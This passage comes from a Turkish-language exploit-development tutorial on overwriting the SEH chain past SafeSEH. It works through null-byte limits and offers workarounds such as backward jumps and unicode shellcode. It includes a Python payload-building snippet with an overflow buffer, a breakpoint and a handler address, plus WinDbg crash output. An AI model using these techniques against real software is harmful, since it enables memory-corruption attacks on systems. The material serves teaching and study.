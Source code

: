 Fakat bu diğer iki adres bizim işimizi görmüyor, aradığımız değere sahip değil. Mesela örneğin eğer burada `005353xxxx` şeklinde bir değer olsa da işimize yaramayacaktı, zira bu bizim dosyamızın içinde demek oluyor. Yani **SafeSEH** aktif. Devam edelim, burada karşımıza çıkacak olan tek sorun bulduğumuz adresin null byte içeriyor olması. (00) null byte değeri ayrıca string değerlerini sonlandırdığı için bu demek oluyor biz SEH üzerine yazdıktan sonra shellcodumuzu stacke yazamayacağız, çünkü `strycpy()` bu null byte'ı görecek ve kopyalamanın bittiğini düşünecek. 

Bunun üstesinden bir iki yolla gelmek mümkün. Örneğin eğer shellcodemuzu SEH'i yazmadan önce yazarsak bu sorunu geçebiliriz. Akabinde ileriye atlamak için **jmp** kullanmak yerine geriye atlayan bir **jmp** kullanabiliriz. Veyahut unicode shellcode kullanırsak bu sorunu yine aşabiliriz zira unicode değerlerinde `00` stringi sonlandırmaz, `00 00` sonlandırır.

Şimdi klasik olarak exploiti yazmaya devam ediyoruz. Bu defa klasik SEH exploitleme işimize yaramayacağı için Next SEH üzerine breakpoint (cc), SE Handler üzerine de bulduğumuz adresi yazalım.

	cokertkaarsim  = "A" * 528           
	cokertkaarsim += "\xcc\xcc\xcc\xcc"             #breakpoint (Next seh)
	cokertkaarsim += struct.pack('<I', 0x00270b0b)  #call    dword ptr [ebp+30h] (SE Handler)
	cokertkaarsim += "D" * 1500                     #junk  

Tekrar çalıştırıp Windbg üzerinde durum kontrolü yapalım.

	0:000> g
	(a80.b00): Break instruction exception - code 80000003 (first chance)
	eax=00000000 ebx=00000000 ecx=00270b0b edx=7c9032bc esi=00000000
    edi=00000000 eip=0012fd98 esp=0012f7a0 ebp=0012f7c4
	0012fd98 cc              int     3
	0:000> !exchain
	  0012f7b8: ntdll!ExecuteHandler2+3a (7c9032bc)
	  0012fd98: 00270b0b
	  Invalid exception stack at cccccccc
	0:000> d 0012fd70
	  0012fd70  41414141 41414141 41414141 41414141
	  0012fd80  41414141 41414141 41414141 41414141
	  0012fd90  41414141 41414141 cccccccc 00270b0b
	  0012fda0  0b34fc31 00000000 0012ff78 5353130e
	  0012fdb0  003540c0 00000000 000002a0 000007a0
	  0012fdc0  b8220002 00000000 00000000 00000000
	  0012fdd0  00000784 003540c0 00000800 00650078
	  0012fde0  02020202 536e6957 206b636f 00302e32

Bakın gördüğünüz üzere her şey doğru ilerliyor. Next SEH değerini `cc` ile, SE Handler'ı da adresimiz ile yazdık. Fakat dostlar, çok dikkat etmeniz gereken bir şey var. Bizim exploitimizde **1500** adet **D** eklemiştik ? Nerde bunlar ? Bu ne lahana turşusu ? Hemen Immunity Debugger ile bakalım.

![](/files/sehnedendurdubukopyalama.png)
